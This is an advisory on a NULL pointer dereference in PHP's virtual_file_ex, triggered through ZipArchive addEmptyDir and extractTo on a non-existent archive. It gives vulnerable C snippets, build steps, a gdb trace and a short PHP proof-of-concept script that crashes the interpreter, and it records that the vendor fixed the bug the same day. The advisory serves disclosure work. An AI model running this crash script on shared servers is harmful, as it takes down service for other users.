 ```yaml
---
title: "PHP NULL pointer dereference in virtual_file_ex (v. master-Git-2016-02-09)"
date: 2016-02-09 00:00:00
preview: ""
---
```


* _Author_: Martino Sani
* _Software_: PHP
* _Version_: master-Git-2016-02-09
* _Release date_: 2016-02-09
* _CVE_: -
* _Reference_: https://bugs.php.net/bug.php?id=71561

A malicious user could create an evil php script in order to crash the PHP interpreter. The issue could compromise the availability of the PHP interpreter in the web hosting services, where the PHP interpreter could be shared among some users.

`virtual_file_ex` method in the `zend_virtual_cwd.c` file uses a `char *` argument that could be NULL. I identified this issue through `extractTo` method in the PHP Zip extension, opening a not existing ZIP archive.

`zend_virtual_cwd.c`:

```c
CWD_API int virtual_file_ex(cwd_state *state, const char *path, verify_path_func verify_path, int use_realpath) /* {{{ */
{
    // path could be NULL
    int path_length = (int)strlen(path);
```

The issue is triggerable via `addEmptyDir` and `extractTo` Zip extension methods, if not existing zip archive will be opened.
Vulnerable code into extractTo method (`php_zip.c`) is shown below:

```c
/* Extract all files */
// zip_get_num_files returns 1 (intern->nentry is equal to 1) because, I think, addEmptyDir incremented it.
int filecount = zip_get_num_files(intern);

if (filecount == -1) {
    // ...
}

for (i = 0; i < filecount; i++) {

    // zip_get_name returns NULL
    char *file = (char*)zip_get_name(intern, i, ZIP_FL_UNCHANGED);

    // php_zip_extract_file uses virtual_file_ex
    if (!php_zip_extract_file(intern, pathto, file, strlen(file))) {
        RETURN_FALSE;
    }
}
```

# PHP build command

```
./buildconf --force
./configure --prefix=/opt/php --enable-debug --enable-zip
make && make install
```

# Test script

```
<?php

$zip = new ZipArchive();

// Open a not existing zip file
$zip->open("/dev/shm/notexisting.zip", ZIPARCHIVE::CREATE);

$zip->addEmptyDir("foo");

// Program terminated with signal SIGSEGV, Segmentation fault.
$zip->extractTo("/dev/shm/");

$zip->close();

?>
```

# Expected result

PHP interpreter should not crash.
No actions could be performed by `extractTo` method because the zip file does not physically exist, or the "in-memory" zip archive could be handled as a normal archive (if possible).

# Actual result

PHP interpreter crash with a SIGSEGV.

```
$ gdb) where
#0  strlen () at ../sysdeps/x86_64/strlen.S:106
#1  0x000000000079055a in c_ziparchive_extractTo (execute_data=0x7f3656a15120, return_value=0x7f3656a15100) at /php-src/master/src/ext/zip/php_zip.c:2671
#2  0x0000000000891c3a in ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER () at /php-src/master/src/Zend/zend_vm_execute.h:1024
#3  0x0000000000890610 in execute_ex (ex=0x7f3656a15030) at /php-src/master/src/Zend/zend_vm_execute.h:422
#4  0x0000000000890721 in zend_execute (op_array=0x7f3656a82000, return_value=0x0) at /php-src/master/src/Zend/zend_vm_execute.h:466
#5  0x00000000008362e8 in zend_execute_scripts (type=8, retval=0x0, file_count=3) at /php-src/master/src/Zend/zend.c:1427
#6  0x00000000007a76ae in php_execute_script (primary_file=0x7ffd6efe8db0) at /php-src/master/src/main/main.c:2484
#7  0x0000000000908079 in do_cli (argc=3, argv=0x18a1c40) at /php-src/master/src/sapi/cli/php_cli.c:974
#8  0x0000000000909043 in main (argc=3, argv=0x18a1c40) at /php-src/master/src/sapi/cli/php_cli.c:1345
```

# Notes

* 2016-02-09: Vendor notification.
* 2016-02-09: Vendor fixes the issue.

The author is not responsible for the misuse of the information provided in this advisory.
